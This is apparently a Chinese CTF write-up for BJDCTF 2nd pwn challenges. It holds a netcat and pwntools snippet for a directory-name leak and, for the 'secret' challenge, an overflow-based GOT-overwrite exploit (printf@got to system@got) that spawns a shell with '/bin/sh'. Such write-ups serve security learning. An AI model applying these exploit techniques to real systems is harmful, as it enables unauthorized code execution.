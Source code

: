 ```
# 另开的终端，获取文件夹名
nop@nop-pwn:~$ nc node3.buuoj.cn 29623 | grep 18631212
ls -ali /tmp
18631212 drwxr-xr-x 2 1000 1000  4096 Apr  2 04:32 R0OM#0731741966 
```

因为此题会输出文件名，所以可以通过python也可以读取打开的文件名,奈何水平有限不能直接通过脚本拿到shell

```
p = remote('node3.buuoj.cn',29623)
p.recvuntil('~')
addr_current_dir = p.recvuntil('Level Up !',drop=True)
addr_current_dir = addr_current_dir.split('\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08')[-2]
log.info(addr_current_dir)

sleep(1)
p.sendline('ls')    
p.recvuntil('?')
p.send('/tmp/'+addr_current_dir) 
```

## [BJDCTF 2nd]secret

题目功能是猜数，数据都在程序中，但是有10000个，可以通过脚本提取出来，但是速度还是太慢。
分析可以注意到
`buf[(signed int)((unsigned __int64)read(0, buf, 0x16uLL) - 1)] = 0;`
总共可以读取0x16个字符，但是buf的长度为10，也就是说我们可以覆写buf之后的off_46D090，off_46D090在开始时被置为10000，用于记录猜数的次数，即每次猜数成功值减一。

所以可以将其覆写为printf@got,因为注意到system@got与printf@got只相差0x10，所以我们成功猜测16次之后即可将printf@got修改为system@got

```
 import re
    from pwn import *

    file=open("secret.asm",'r')
    data=file.readlines()
    data_list = []
    for i in range(len(data)):
        if re.search('cmp    eax,',data[i]):
            data_list.append(int(data[i][-7:],16))
    log.success("data got!%d"%len(data_list))

    p = process('./secret')

    def way1():
        p.send('AAA')   

        for i in data_list:
            p.send(str(i))
            sleep(0.1)
        p.interactive()

    def way2():

        payload = '/bin/sh\x00'.ljust(0x10,'a')
        payload += p32(ELF('./secret',checksec=False).got['printf'])

        p.send(payload)
        for i in range(0xf):
            p.send(str(data_list[i]))
            sleep(0.1)
        p.interactive()

    way2() 
```